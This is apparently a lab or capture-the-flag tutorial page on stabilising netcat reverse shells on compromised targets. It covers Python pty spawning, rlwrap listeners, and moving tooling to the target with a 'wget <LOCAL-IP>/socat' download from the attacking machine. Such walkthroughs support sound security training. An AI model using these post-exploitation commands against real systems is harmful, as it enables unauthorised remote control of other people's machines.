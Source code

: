 Task 5  Netcat Shell Stabilisation
----------------------------------

There are many ways to stabilise netcat shells on Linux systems.

We'll be looking at **`three`** here.

Stabilisation of Windows reverse shells tends to be significantly harder; however, the ***second technique*** that we'll be covering here is particularly useful for it.

<ins>Technique 1: Python</ins>

1. `python -c 'import pty;pty.spawn("/bin/bash")'` python or python or python3

2. `export TERM=xterm` -- this will give us access to term commands such as `clear`
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`

This does two things:

1. first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).

2. foregrounds the shell, thus completing the process.


#### Note:
Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo).

To fix this, type `reset` and press enter.


<ins>Technique 2: rlwrap</ins>


rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.


Syntax:
`rlwrap nc -lvnp <port>`


#### Note:
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell.

**This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise**.


<ins>Technique 3: Socat</ins>

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
